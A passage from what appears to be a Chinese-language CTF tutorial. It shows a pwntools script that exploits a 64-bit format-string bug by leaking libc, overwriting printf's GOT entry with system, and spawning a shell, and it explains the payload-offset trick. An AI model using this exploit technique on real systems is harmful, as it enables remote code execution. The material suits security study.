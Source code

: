 ```python
sh.recv()
read_addr = u64(data)

## get system addr
libc = LibcSearcher('read', read_addr)
libc_base = read_addr - libc.dump('read')
system_addr = libc_base + libc.dump('system')
log.success('system addr: ' + hex(system_addr))
log.success('read   addr: ' + hex(read_addr))
## modify printf_got
payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
## get all the addr
addr = payload[:32]
payload = '%32d' + payload[32:]
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
for i in range(6, 10):
    old = '%{}$'.format(i)
    new = '%{}$'.format(offset + i)
    payload = payload.replace(old, new)
remainer = len(payload) % 8
payload += (8 - remainer) * 'a'
payload += addr
sh.sendline(payload)
sh.recv()

## get shell
sh.sendline('/bin/sh;')
sh.interactive()
```

这里需要注意的是这一段代码

```python
## modify printf_got
payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
## get all the addr
addr = payload[:32]
payload = '%32d' + payload[32:]
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
for i in range(6, 10):
    old = '%{}$'.format(i)
    new = '%{}$'.format(offset + i)
    payload = payload.replace(old, new)
remainer = len(payload) % 8
payload += (8 - remainer) * 'a'
payload += addr
sh.sendline(payload)
sh.recv()
```

fmtstr\_payload 直接得到的 payload 会将地址放在前面，而这个会导致 printf 的时候 '\x00' 截断（**关于这一问题，pwntools目前正在开发 fmt\_payload 的加强版，估计快开发出来了。**）。所以我使用了一些技巧将它放在后面了。主要的思想是，将地址放在后面 8 字节对齐的地方，并对 payload 中的偏移进行修改。需要注意的是

```python
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
```

这一行给出了修改后的地址在格式化字符串中的偏移，之所以是这样在于无论如何修改，由于 '%order$hn' 中 order 多出来的字符都不会大于 8。具体的可以自行推导。
